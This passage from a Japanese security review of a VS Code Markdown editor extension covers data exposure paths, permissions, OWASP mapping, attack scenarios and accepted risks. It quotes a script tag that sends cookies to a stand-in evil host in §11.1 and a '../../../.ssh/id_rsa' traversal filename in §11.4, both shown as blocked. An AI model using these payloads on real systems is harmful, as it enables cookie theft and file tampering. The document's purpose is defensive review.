| クリップボードへのアクセス | **あり** | ブロックの切り取り/コピー/貼り付けのため `navigator.clipboard.writeText()`/`readText()` を使用（§4.2）。OSクリップボードに**ドキュメントの一部（選択ブロックのMarkdown原文）が書き込まれる** |

**上記のうちPDF一時ファイルとクリップボードは、いずれもドキュメント内容そのものを含む点で「機密情報を保存・キャッシュしない」という旧来の主張と矛盾する。** 一時HTMLファイルは `os.tmpdir()` に自動削除されず残留し、クリップボードはOS標準のクリップボード（他アプリからも読み取り可能）を経由する。機密文書を扱う場合は §12 の受容リスクを参照。

### 8.2 編集中ドキュメントの取り扱い

```
ドキュメント内容の経路:
  ファイルシステム → VS Code TextDocument → postMessage → WebView内メモリ
                                                         ↓
                                          marked.jsでパース（メモリ内のみ）
                                                         ↓
                                          DOM要素として画面表示
                                    ┌────────────────────┼────────────────────┐
                                    ↓ (本文編集時)         ↓ (画像D&D時)         ↓ (PDF出力時)
                       postMessage(edit)          postMessage(saveImage)   postMessage(exportPdf)
                                    ↓                     ↓                     ↓
                       VS Code WorkspaceEdit      images/ へファイル書込      os.tmpdir() へHTML書込
                                    ↓                                           ↓
                              ファイル保存                                OS既定ブラウザで表示
```

- ドキュメント内容は **VS Code ↔ WebView 間の `postMessage`** に加え、上記2つの追加経路（画像ファイル書き込み・PDF一時HTML）でディスクに書き出される場合がある
- `postMessage` は同一プロセス内のメッセージングであり、ネットワークを経由しない
- 編集内容はメモリ上にのみ存在し、ユーザーが保存操作を行うまで**開いている `.md` ファイル自体**には書き込まれない（ただし画像保存・PDF出力は明示操作時に即座にディスクへ書き込まれる）
- WebView破棄時にメモリ上のデータはガベージコレクションで消去されるが、`images/` の画像ファイルとPDF用一時HTMLはディスクに残る

### 8.3 機密文書を編集する場合のリスク評価

| リスクシナリオ | 評価 | 理由 |
|---|---|---|
| `edit`/`postMessage` 経由でのネットワーク漏洩 | **リスクなし** | CSP `connect-src` がローカルリソースに制限 + 拡張機能コードに通信APIの呼び出しなし |
| 文書内のリモート画像URLによる情報漏洩 | **低リスクで実在** | `img-src https:` により画像URLへの接続元IP等が画像ホストに伝わる。機密文書では外部画像URLの使用を避けるか、オフライン画像のみ使用すること |
| 他の拡張機能への漏洩 | **リスクなし** | WebViewは拡張機能間で隔離されている |
| ファイルシステム経由での漏洩 | **限定的リスクあり** | 書き込みは開いたドキュメント・`images/`・`os.tmpdir()` の3箇所に限定されるが、`os.tmpdir()` のPDF一時ファイルはドキュメント内容を含み自動削除されない（§4.4・§8.1） |
| PDF出力によるサンドボックス外レンダリング | **中リスク** | 生成HTMLはVS CodeのCSP・サニタイズ層の外（OS既定ブラウザ）で描画される。§4.4参照 |
| クリップボード経由の漏洩 | **低リスクで実在** | 切り取り/コピーしたブロックのMarkdown原文がOS標準クリップボードに置かれ、他アプリからも読み取り可能になる |
| メモリダンプ経由での漏洩 | **OS特権アクセスが必要** | VS Code/Electronプロセスのメモリダンプ取得にはOS管理者権限が必要。本拡張機能固有のリスクではない |

---

## 9. 権限（Permissions）の最小化

### 9.1 VS Code API 使用状況

| 使用API | 目的 |
|---|---|
| `vscode.window.registerCustomEditorProvider` | カスタムエディタの登録 |
| `vscode.commands.registerCommand` | `mdVisualEditor.openVisualEditor` コマンドの登録（テキストエディタ⇄ビジュアルエディタの往復用） |
| `vscode.workspace.applyEdit` | ドキュメントテキストの更新 |
| `vscode.workspace.onDidChangeTextDocument` | 外部変更の検知 |
| `vscode.workspace.onDidSaveTextDocument` | 保存完了の検知 |
| `vscode.workspace.fs.createDirectory` / `writeFile` | `images/` ディレクトリ作成・画像保存、PDF一時HTML書き込み |
| `vscode.workspace.getWorkspaceFolder` | `localResourceRoots` へのワークスペースフォルダ追加判定 |
| `vscode.env.openExternal` | `http(s)`/`mailto` リンクをOSの既定ハンドラで開く |
| `vscode.commands.executeCommand('vscode.open'/'vscode.openWith'/'undo'/'redo')` | リンクを開く／テキストエディタで開き直す／undo・redo |
| `webviewPanel.webview.postMessage` | WebViewへのデータ送信 |
| `webviewPanel.webview.onDidReceiveMessage` | WebViewからのデータ受信 |
| `webviewPanel.webview.asWebviewUri` | ローカルリソースをWebViewが参照可能なURIへ変換 |

Node.js標準の `child_process.spawn`（`cmd.exe`/`open`/`xdg-open`）もPDF出力機能内で使用している。これは **VS Code APIではなくNode.js APIの直接利用**であり、旧版の「VS Code APIの使用は必要最低限」という説明からは漏れていた重要な権限拡大である（詳細は §4.4）。

### 9.2 使用していない権限・API

以下の権限・APIは使用していない：

- ファイルシステム走査 (`vscode.workspace.findFiles` 等)
- ターミナル操作 (`vscode.window.createTerminal` 等)
- デバッグ (`vscode.debug.*`)
- タスク実行 (`vscode.tasks.*`)
- Git操作 (`vscode.extensions.getExtension('vscode.git')`)
- 認証プロバイダ (`vscode.authentication.*`)
- コメント (`vscode.comments.*`)
- 拡張機能コードによる能動的なネットワークリクエスト（fetch/http等）※ CSP経由の受動的な画像取得は発生しうる（§3参照）
- シークレットストレージ
- 拡張機能の グローバル/ワークスペース状態

### 9.3 `activationEvents` の設定

```json
"activationEvents": []
```

`activationEvents` が空配列であるため、拡張機能は**対応エディタ／コマンドが呼ばれたときのみアクティベートされる**。バックグラウンドで常駐しない。

---

## 10. OWASP Top 10 との対照

| OWASP カテゴリ | 適用可否 | 本拡張機能における対策 |
|---|---|---|
| A01 アクセス制御の不備 | 限定的 | VS Code / OSのファイル権限に委譲。独自の認証・認可は不要（単一ユーザーローカルアプリ） |
| A02 暗号化の失敗 | **該当なし** | 機密データの能動的な保存・送信を行わない（受動的な経路は§8参照） |
| A03 インジェクション | **対策済み（denylist方式 + CSPの多層防御）** | HTMLサニタイズ(`sanitizeHtml()`、denylist方式)、属性エスケープ(`escapeHtmlAttr()`)、テキストエスケープ(`escapeHtml()`)、CSP、Mermaid `loose` モード + 内部サニタイズ、KaTeX `trust:false`。allowlist方式のDOMPurifyのような網羅的保証はなく、CSPが第2層として機能 |
| A04 安全でない設計 | **対策済み** | 最小権限原則を志向。書き込み先は3箇所に限定。メッセージ型は列挙され未知の型は無視される |
| A05 セキュリティの設定ミス | **対策済み（ただし影響範囲は拡大）** | CSP設定済み。`localResourceRoots` は `media/` に加え文書フォルダ・ワークスペースフォルダを含むよう拡大(§4.5)。nonce毎回再生成 |
| A06 脆弱で古いコンポーネント | **運用対策** | `npm audit` による定期スキャンを推奨 |
| A07 識別と認証の失敗 | **該当なし** | 認証機能なし |
| A08 ソフトウェアとデータの完全性の失敗 | **対策済み** | CSPのnonce制約により改竄スクリプトの実行防止。PDF出力先ではこの保護が及ばない点は既知の限界（§4.4） |
| A09 セキュリティログとモニタリングの失敗 | **該当なし** | サーバーサイドアプリケーションではない |
| A10 サーバーサイドリクエストフォージェリ (SSRF) | **該当なし** | サーバーサイド通信なし |

---

## 11. 攻撃シナリオと防御の検証

### 11.1 悪意のあるMarkdownファイルを開いた場合

**シナリオ:** 攻撃者が以下のようなMarkdownファイルを配布する。

```markdown
# 悪意のあるドキュメント

<script>fetch('https://evil.example.com/steal?data='+document.cookie)</script>


[クリック](javascript:alert(1))
```

**防御結果:**

| 攻撃ベクター | 防御層 | 結果 |
|---|---|---|
| `<script>` タグ | `sanitizeHtml()` で除去 + CSP nonce不一致で実行拒否 | **ブロック（二重防御）** |
| `onerror` 属性 | `sanitizeHtml()` で `on*` 属性をすべて除去 | **ブロック** |
| `javascript:` href | `sanitizeHtml()` で `javascript:` URLを除去 | **ブロック** |
| 仮に `fetch()` が実行されても | CSP `connect-src` がローカルリソースに制限され、外部URLへのリクエスト拒否 | **ブロック** |

※ この `fetch()` 遮断は `<script>` 由来のスクリプトが行う能動的通信の話であり、§3で述べた `` の受動的な画像読み込み許可（`img-src`）とは別のディレクティブで制御されている点に注意。

### 11.2 悪意のあるMermaidダイアグラム

**シナリオ:**

````markdown

````

**防御結果:**

| 防御層 | 効果 |
|---|---|
| `mermaid.initialize({ securityLevel: 'loose' })` | HTMLラベルを許可しつつ内部で危険なHTMLを除去 |
| CSP `connect-src` がローカルリソースに制限 | 仮にfetchが実行されても外部URLへのリクエスト拒否 |

### 11.3 VS Code拡張機能ホスト側への攻撃

**シナリオ:** WebViewから悪意のあるメッセージを送信。

```javascript
vscode.postMessage({ type: 'edit', text: '悪意のあるテキスト' });
```

**防御結果:**

- ホスト側では `message.text` を `WorkspaceEdit.replace()` に渡すのみ
- テキストはコードとして評価されず、開いているドキュメントに書き込まれるのみ
- ファイルパスは `document.uri`（ユーザーが元々開いたファイル）に固定
- **任意ファイルへの書き込みは不可能**
- 他の8種類のメッセージ型（§6.1）も同様に、到達先のAPI・パスがコード上固定されており、`message` の内容だけで書き込み先を変えることはできない

### 11.4 `saveImage` への細工されたファイル名

**シナリオ:** 侵害・改造されたWebView側コードが、`saveImage` に `../../../.ssh/id_rsa` のような `name` を渡して `images/` の外へ書き込もうとする。

**防御結果:**

| 攻撃ベクター | 防御層 | 結果 |
|---|---|---|
| `name` に `../` を含めてディレクトリ脱出 | `sanitizeFileName()` が `\` `/` をすべて `_` に置換 | **ブロック**（パスセパレータ自体が除去されるため `images/` 配下から出られない） |
| 巨大なファイル名 / 制御文字 | 120文字への切り詰め、`<>:"|?*` と制御文字の除去 | **緩和** |

### 11.5 PDF出力による文書内容の外部露出

**シナリオ:** 機密文書を「PDFとして出力」した場合、レンダリング結果が一時HTMLとしてディスクに残り、OS既定のブラウザ（VS Code CSPの外）で開かれる。

| 項目 | 内容 |
|---|---|
| WebView側のサニタイズ | `exportPdf` で送られる `message.html` は通常 `sanitizeHtml()` を経たコンテンツだが、ホスト側で再検証はしていない |
| 一時ファイルの残留 | 自動削除処理がなく、`os.tmpdir()` に残る。共有マシンでは他ユーザーに読まれるリスクがある |
| 評価 | **機能として意図された経路であり「攻撃」ではないが、機密文書利用者が認識すべきデータ露出経路** |

---

## 12. 既知の制限事項と受容リスク

| 項目 | リスクレベル | 説明 | 緩和策 |
|---|---|---|---|
| CSP `'unsafe-eval'` | 低 | mermaid.jsの内部動作に必要 | nonce制約+CSPの他ディレクティブで実質的な悪用不可 |
| CSP `'unsafe-inline'`（style） | 低 | mermaid.jsのSVGインラインスタイルに必要 | CSSのみの攻撃でデータ漏洩は不可能（`connect-src` がローカルリソースに制限） |
| `img-src` に `https:` を許可 | 低〜中 | Markdown内の外部画像URLがレンダリング時に**実際に読み込まれる**（通信そのものが発生する） | 機密環境ではオフライン画像のみ使用を推奨。信頼できない文書は開く前に内容を確認する |
| `localResourceRoots` が文書フォルダ・ワークスペースフォルダを含む | 低 | v0.4.1時点は`media/`のみだったが、相対パス画像表示のため文書フォルダとワークスペースフォルダに拡大された(§4.5) | WebViewから読めるのはこの範囲内かつ限られたAPI経由のみ。任意ファイル読み取りAPIは提供していない |
| `saveImage` によるファイルシステム書き込み | 低 | `images/`ディレクトリを自動作成し画像を書き込む(§4.3) | ファイル名は`sanitizeFileName()`でサニタイズ、書き込み先は`images/`配下に固定 |
| `exportPdf` によるVS Codeサンドボックス外への出力 | 中 | 一時HTMLをOS既定ブラウザで開くため、CSP・サニタイズ層の外でコンテンツが描画される。一時ファイルは自動削除されない(§4.4) | 機密文書のPDF出力は慎重に行い、出力後は`os.tmpdir()`内の一時ファイルを手動で削除することを推奨 |
| クリップボードへのブロック内容書き込み | 低 | ブロックの切り取り/コピーでOS標準クリップボードにMarkdown原文が置かれる(§8.1) | OS標準の挙動であり他エディタと同様。機密文書では貼り付け先に注意 |
| `localStorage`（オンボーディング表示済みフラグ） | 極低 | 各ダイアグラムエディタ種別ごとの「初回ヒント表示済み」フラグ(`'1'`)のみ。ドキュメント内容を含まない | 特になし |
| `openLink` のスキーム・パス検証が限定的 | 低 | `http(s)`/`mailto`以外の任意スキームや`../`を含む相対パスも`vscode.open`に渡る(§6.1) | 到達先は「VS Code/OSでファイルまたはURLを開く」ことに限定され、コード実行には至らない |
| `sanitizeHtml()` はdenylist方式 | 低〜中 | allowlist方式(DOMPurify等)と異なり、未知の危険パターンを見逃す可能性がある(§5.2) | CSPを第2防御層として運用。将来的にDOMPurify等のallowlistライブラリへの置き換えを検討の余地あり |
| 依存ライブラリの将来の脆弱性 | 中 | marked / mermaid / katex に未知の脆弱性が発見される可能性 | 定期的な `npm audit` とバージョン更新で対応 |

---

## 13. セキュリティチェックリスト

開発・レビュー・リリース前に確認すべき項目：

- [x] CSPヘッダーが設定されている
- [x] `default-src 'none'` で全通信をデフォルトブロック
- [x] `connect-src` が `${cspSource}` に制限され、`fetch`/`XHR`/`WebSocket` による外部URLへのリクエスト不可（ただし `img-src` の `https:` により画像取得は許可 — §3.2）
- [x] スクリプトにnonceが設定され、カスタムエディタが開かれるたびに再生成
- [x] `localResourceRoots` の範囲が把握・文書化されている（`media/` + 文書フォルダ + ワークスペースフォルダ、§4.5）
- [x] WebViewメッセージの型が列挙され、想定外の型は無視される（9種類、§6.1）
- [x] `innerHTML` への代入前にサニタイズが行われている（denylist方式、§5.2）
- [x] イベントハンドラ属性（`on*`）が除去されている
- [x] `javascript:` / `vbscript:` URLが除去されている
- [x] 危険なHTML要素（`script`, `iframe` 等）が除去されている
- [x] Mermaid `securityLevel` が `'loose'`（内部サニタイズ + CSPで外部通信を制限）
- [x] KaTeX が `trust: false` で初期化されている（§5.4）
- [x] ファイルシステムへの書き込み経路が3箇所（文書本体・`images/`・`os.tmpdir()`）に把握・限定されている（§4.1）
- [x] `saveImage` のファイル名がサニタイズされディレクトリトラバーサルを防いでいる（§4.3）
- [ ] PDF出力の一時HTMLファイルの自動削除 — **未実装**（既知の制限事項、§12）
- [x] 認証情報・APIキー等がコード内にハードコードされていない
- [x] テレメトリ・分析機能が含まれていない
- [x] `activationEvents` が空で不要な常駐をしない
- [x] 依存パッケージの `npm audit` が実行済み（`overrides`によるバージョン固定は現在なし、§7.3）

---

## 14. 結論

本拡張機能は多層防御の設計原則に基づいて構築されているが、v0.4.1時点の本ドキュメント（v2.0）が主張していた「外部への情報漏洩リスクが皆無」という結論は、v0.5.xで追加された機能（画像保存・PDF出力・リンクオープン・リモート画像読み込み）を踏まえると**過大な主張であり撤回する**。正確な評価は以下の通り。

1. **拡張機能コードは能動的な外部通信を行わない** — fetch/XHR/WebSocket/http(s)モジュールの呼び出しはコード中に存在しない。ただしCSPの `img-src https:` により、文書がリモート画像URLを含む場合は受動的な通信が発生する（§3）
2. **ファイルシステムアクセスは3箇所に限定される** — 開いているドキュメント、`<文書フォルダ>/images/`、`os.tmpdir()`。いずれも任意パスへの書き込みではないが、「1ファイルのみ」という説明はもはや正確ではない（§4）
3. **PDF出力はVS Codeのサンドボックス・CSPの外でコンテンツを描画する** — これは受容すべき既知の制限であり、機密文書利用時は注意が必要（§4.4・§12）
4. **多層防御は健在だが完全ではない** — HTMLサニタイズ（denylist方式）+ CSP + nonce + Mermaid内部サニタイズ + KaTeX `trust:false` + WebViewサンドボックスによる防御は機能しているが、denylist方式である点とPDF出力がこの防御の外にある点は明記すべき限界である
5. **データを能動的に外部送信しないが、非保持ではない** — クリップボード・PDF一時ファイル・`localStorage`のオンボーディングフラグ・WebView `setState`のテーマ設定など、ドキュメント内容またはUI状態の一部がプロセス外の永続領域に置かれる経路が複数存在する（§8）
6. **透明性** — 全ソースコードが閲覧可能であり、本ドキュメントは v1.0.0（HEAD `20e4f6b`）時点のソースコードを実地検証して記載している
